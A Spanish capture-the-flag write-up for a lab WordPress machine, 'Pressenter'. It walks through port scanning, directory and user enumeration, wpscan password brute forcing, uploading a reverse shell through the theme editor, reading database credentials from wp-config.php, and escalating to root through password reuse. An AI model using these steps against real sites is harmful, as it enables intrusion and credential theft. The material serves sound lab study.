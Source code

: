 ```yaml
---
description: '✍️ Autor: d1se0  🔍 Dificultad: Fácil  📅 Fecha de creación: 29/08/2024'
---
```


# Pressenter

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (773).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (774).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web de CTF (está algo fea) puede ser que sea un WordPress.

<figure><img src="../../.gitbook/assets/image (775).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt,xml
```

<figure><img src="../../.gitbook/assets/image (779).png" alt=""><figcaption></figcaption></figure>

Revisamos el código fuente y encontramos un dominio por lo que hay que añadirlo en el archivo `/etc/hosts`.

<figure><img src="../../.gitbook/assets/image (776).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (777).png" alt=""><figcaption></figcaption></figure>

Al ser un **WordPress** realizamos este comando para enumerar los usuarios y plugins.

```bash
wpscan --url http://pressenter.hl/ --enumerate u,vp
```

<figure><img src="../../.gitbook/assets/image (778).png" alt=""><figcaption></figcaption></figure>

Realizamos fuerza bruta a través de la misma herramienta.

```bash
wpscan --url http://pressenter.hl/ --passwords /usr/share/wordlists/rockyou.txt --usernames pressi,hacker
```

<figure><img src="../../.gitbook/assets/image (781).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../.gitbook/assets/image (780).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Estamos dentro vamos a la sección de **Herramientas** en concreto **Editor de archivos de temas** para subir la [**Reverse Shell**](https://www.revshells.com/).

<figure><img src="../../.gitbook/assets/image (782).png" alt=""><figcaption></figcaption></figure>

Al actualizar el archivo nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (783).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.

<figure><img src="../../.gitbook/assets/image (784).png" alt=""><figcaption></figcaption></figure>

Encuentro en el directorio `/tmp` un archivo que no se puede leer si no soy el usuario **mysql** por lo que voy a mostrar el contenido de **wp-config.php**.

<figure><img src="../../.gitbook/assets/image (785).png" alt=""><figcaption></figcaption></figure>

```
cat /var/www/pressenter/wp-config.php
```

<figure><img src="../../.gitbook/assets/image (787).png" alt=""><figcaption></figcaption></figure>

Encontramos un usuario y su contraseña.

```
mysql -u admin -p'rooteable' -h 127.0.0.1
```

<figure><img src="../../.gitbook/assets/image (788).png" alt=""><figcaption></figcaption></figure>

Indagamos a ver si encontramos información relevante.

```bash
show databases;
use wordpress;
show tables;
select * from wp_usernames;
```

<figure><img src="../../.gitbook/assets/image (789).png" alt=""><figcaption></figcaption></figure>

Encontramos las credenciales del usuario **enter**. Nos logueamos.

<figure><img src="../../.gitbook/assets/image (790).png" alt=""><figcaption></figcaption></figure>

En el directorio del usuario hay una flag probablemente en el directorio root puede haber algo parecido por lo que realizamos este comando para escalar privilegios.

```bash
sudo /usr/bin/cat /root/root.txt
```

<figure><img src="../../.gitbook/assets/image (791).png" alt=""><figcaption></figcaption></figure>

No tenemos suerte, voy a probar una solución más sencilla y es la misma contraseña sea para root.

<figure><img src="../../.gitbook/assets/image (792).png" alt=""><figcaption></figcaption></figure>
